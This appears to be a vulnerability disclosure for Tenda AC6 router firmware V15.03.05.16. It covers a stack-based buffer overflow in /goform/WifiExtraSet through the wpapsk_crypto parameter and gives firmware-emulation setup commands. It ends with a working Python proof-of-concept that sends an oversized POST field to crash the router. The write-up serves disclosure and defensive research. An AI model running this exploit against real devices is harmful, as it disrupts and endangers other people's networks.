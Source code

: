 ### Overview

*   设备官网：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   固件下载网站： [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102661)

![](api/attachments/OLpMhoNjD8Vg/image/image.png)

### Affected version

**V15.03.05.16**

### Environmental simulation

```text-plain
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

### Vulnerability details

A vulnerability was found in Tenda AC6 V15.03.05.16. The file /goform/WifiExtraSet is affected. Using the wpapsk\_crypto parameter causes a stack-based buffer overflow

![](api/attachments/RDjZlle9Z1rD/image/image.png)

### poc

```text-plain
import requests

url = "http://192.168.142.100/goform/WifiExtraSet"
data = {
    "wifi_chkHz": "1",
    "wl_mode": "wisp",
    "wl_enbale": "1",
    "country_code": "CN",
    "wpsEn": "0",
    "guestEn": "0",
    "iptvEn": "0",
    "wifiTimerEn": "1",
    "smartSaveEn": "1",
    "dmzEn": "1",
    "handset": "0",
    "ssid": "fcniux",
    "wpapsk_key": "11111111",
    "security": "wpapsk",
    "wpapsk_type": "wpa",
    "wpapsk_crypto": b"Raining" * 28, 
    "mac": "undifined"
}

response = requests.post(url, data=data)
print(response.status_code)
print(response.text)
```

![](api/attachments/PeiIIoXkyBHq/image/image.png)
